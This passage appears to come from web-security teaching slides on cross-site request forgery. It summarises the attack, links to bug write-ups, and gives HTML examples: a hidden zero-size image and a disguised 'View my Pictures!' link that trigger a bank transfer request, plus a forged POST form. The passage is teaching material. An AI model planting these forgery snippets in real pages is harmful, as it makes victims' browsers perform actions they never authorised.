 ## In A Nutshell

* Attacker creates **forged HTTP requests and tricks a victim into submitting
them** via image tags, XSS, Form POSTs, or numerous other techniques. If the user is authenticated, the attack succeeds;
* Attackers **can create malicious web pages** which generate **forged requests
that are indistinguishable from legitimate ones**;
* Causes victim to **change any data the victim is allowed to change**, but
also to **perform any function the victim is authorized to use**.

<i class="fa fa-bookmark"></i> [Facebook CSRF worth USD 5000](http://amolnaik4.blogspot.fr/2012/08/facebook-csrf-worth-usd-5000.html)
<br>
<i class="fa fa-bookmark"></i> [Does Google Understand CSRF?](http://cryptogasm.com/2012/02/does-google-understand-csrf/)
<br>
<i class="fa fa-bookmark"></i> [A few CSRF-like vulnerable examples.](http://homakov.blogspot.fr/2012/03/hacking-skrillformer-moneybookers.html)

---

## CSRF With GET

Using a zero-byte image attack:

    !html
    <img
        src="https://bank.com/transfer.do?acct=BOB&amount=100"
        height="0" width="0"
    />

Using a link, asking the victim to click on it:

    !html
    <a href="http://bank.com/transfer.do?acct=BOB&amount=100">
        View my Pictures!
    </a>

---

## CSRF With POST

A malicious page can issue a POST request to any domain:

    !html
    <form method="POST" action="http://example.org/form">
        <input type="text" name="name" value="Joe la frite">
        <input type="text" name="message" value="Hello, World!">
        <!-- ... -->
    </form>

With a few lines of JavaScript:
